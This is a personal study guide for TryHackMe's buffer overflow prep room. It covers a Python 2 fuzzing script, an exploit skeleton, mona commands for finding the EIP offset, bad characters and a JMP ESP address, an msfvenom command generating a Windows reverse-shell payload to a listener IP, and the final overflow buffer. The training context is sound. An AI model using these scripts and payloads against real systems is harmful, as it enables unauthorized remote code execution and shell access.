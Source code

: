 # Buffer Overflow Guide 2

Working off the buffer overflow prep room: https://tryhackme.com/room/bufferoverflowprep

## Basic premise

Finding the offset of the EIP register when we overflow. We will overflow this with an instruction that will jump to the stack pointer (by finding other instances of JMP ESP in the code or referenced libraries, and then setting EIP to one of these addresses). At the stack pointer, past NOP padding, will be our payload code.

As part of this premise, we will work out which characters get malformed in the overwriting process, so called bad chars, and then ensure our payload and the address of the JMP ESP we try to find do not contain these characters.

## Fuzzing Script

python2

```python
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Exploit script

Python 2 again. Fill this in as you go, normally using payload with patterns and/or bad data tests.

```python
import socket

ip = "10.10.198.104"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

## General steps

Open target in immunity (with mona installed - see BUFFER-OVERFLOW-1.md for instructions), and set running.
For the first challenge, when run, to overflow you send OVERFLOW1 <string> after connecting.

1. Find the offset length. This can be done by fuzzing with longer and longer strings: the room does this with a script that connects and sends a increasing string, which gives the approx fail point (replicated above).

Once an idea is gained, generate the trace string: find pattern_create.rb from the metasploit framework (`find / -name pattern_create.rb 2>/dev/null`), and run it like so (using path from THM attackbox): `/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 2400` (assuming a fail length of somewhere around 2400). Generally take approx (say last from fuzz script) and add 400.

When this fails, in immunity, run `!mona findmsp -distance 2400` matching the length there. This will return the offset in the log ("EIP contains normal pattern : blah (offset <here>)")

2. Work out bad characters. Run `!mona bytearray -b "\x00"` to generate a big character string. This will create a bin file and a txt file, the text file containing a set of char options. Send this payload (resetting the exe in immunity), prefixed by the offset. E.g. if the payload is named buf, and the offset is 534, then send `"A" * 534 + buf`. 

Take the value out of the ESP register when it crashes, and then add to a mona command like so: `!mona compare -f c:\moda\oscp\bytearray.bin -a 0186FA30`, with the path to generated bin and the provided address in there. This will run and either return 'unmodified' in red, or a set of 'possibly bad characters'.

Repeat step 2, adding those bad characters to \x00 above, and do so until unmodified is returned.

3. Find a jump esp command. This can be done in mona passing in the found bad characters, e.g. `!mona jmp -r esp -cpb "\x00\x07\x08\x2e\x2f\xa0\xa1"` Pick an address from the list.

Once you have an address, reverse and hexify it. For example, 625011AF becomes \xAF\x11\x50\x62

4. Generate some shell code with msfvenom, passing in bad chars and the bind port: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.206.220 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f py`

5. Finally, deliver the payload like so:

offset from step 1, retn being step 3, payload from step 5. The padding is just to allow the unpacking of the msfcommand.

```
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xAF\x11\x50\x62"
padding = "\x90" * 16
payload = buf
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
```
